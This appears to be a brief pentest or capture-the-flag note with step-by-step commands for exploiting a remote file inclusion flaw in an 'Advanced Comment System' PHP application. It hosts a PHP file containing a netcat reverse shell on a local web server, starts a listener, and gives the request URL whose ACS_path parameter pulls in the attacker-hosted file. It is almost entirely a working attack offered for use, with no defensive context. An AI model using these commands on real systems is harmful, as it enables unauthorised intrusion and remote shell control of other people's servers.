 ### Start local http server
```
python3 -m http.server 80
```

### Create php reverse shell and insert
```
vim tconfig.php
<?php system("nc <lhost> <lport> -e /bin/sh"); ?>
```

### Start listener
```
nc -lvp <lport>
```

### Trigger remote file inclusion
https://<rhost>/internal/advanced_comment_system/index.php?ACS_path=http://<lhost>/t  

### References
https://www.exploit-db.com/exploits/9623  

